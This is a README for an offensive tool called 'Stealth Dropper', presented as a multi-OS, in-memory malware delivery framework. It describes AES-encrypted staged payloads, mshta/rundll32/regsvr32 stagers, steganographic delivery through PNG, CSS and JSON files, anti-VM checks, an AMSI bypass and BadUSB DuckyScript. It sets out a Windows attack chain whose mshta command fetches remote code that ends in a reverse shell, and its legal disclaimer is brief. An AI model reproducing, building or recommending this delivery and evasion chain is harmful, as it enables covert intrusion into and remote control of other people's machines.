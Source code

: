 # Stealth Dropper (2025 Edition)

**Multi-stage, multi-OS, in-memory malware delivery framework**

## ✅ Features
- AES-256 encrypted payload delivery
- Full in-memory execution (no file drops)
- Multi-OS support: Windows / Linux / macOS
- Web-based stagers via mshta / rundll32 / regsvr32
- Payload delivery via CSS, JSON, PNG (LSB stego)
- Anti-VM / sandbox detection module
- DuckyScript generation for WiFi BadUSB

---

## 📁 Project Structure
```
stealth-dropper/
├── build_and_run.sh        # main automation script
├── config/                 # config/settings.json
├── core/                   # anti_vm.ps1
├── output/                 # generated stagers + logs
├── payloads/               # raw stage 2 payloads by OS
├── stagers/                # template stage 1 payloads for delivery
├── tools/                  # encryption & embedding tools
└── web/                    # hosted delivery files
```

---

## 🚀 How to Use

### 1. Set encryption key in `.env`
```
ENCRYPTION_KEY=Zxcvbnm1234567890Zxcvbnm12345678
```

### 2. Run the builder
```bash
chmod +x build_and_run.sh
./build_and_run.sh
```

You'll be prompted to select:
- Target IP and port
- Target OS
- Payload type (e.g. shell_reverse)
- Delivery method (css / manifest / png)

Result:
- Stage 2 is AES-encrypted
- Stage 1 (PowerShell / HTA / SCT) is generated
- Payload is embedded in CSS/JSON/PNG
- Server starts at `http://<your-ip>:<port>`
- DuckyScript saved in `output/ducky_payload.txt`

---

## 🧪 Example Attack Chain (Windows)
```
1. Deliver WiFi Ducky:
   > GUI r
   > mshta http://<your-ip>:8000/decrypt.html

2. HTML decrypts AES payload from CSS/JSON/PNG
3. Executes PowerShell stage 2 in memory
4. Reverse shell connects back to you
```

---

## 📦 Supported Payloads
- `windows/shell_reverse` → raw.ps1 TCP shell
- `windows/lolbins/js_payload.html` → mshta/jscript shell
- `linux/bash_reverse` → raw.sh reverse TCP
- `mac/osascript` → raw.osascript reverse shell

---

## 🔐 Stealth Considerations
- No IEX / no downloadstring / no Invoke-Obfuscation
- AMSI bypass injected in stage 1
- Anti-VM checks built-in (RAM, hostname, vendor)
- No file drops unless explicitly instructed

---

## 🛠 Requirements
- Python 3.8+
- pip install -r requirements.txt
- Dependencies: `python-dotenv`, `pycryptodome`, `Pillow`

---

## ⚠️ Legal Notice
> This project is for educational and authorized testing use only.  
> You are responsible for your actions. Do not deploy without explicit permission.
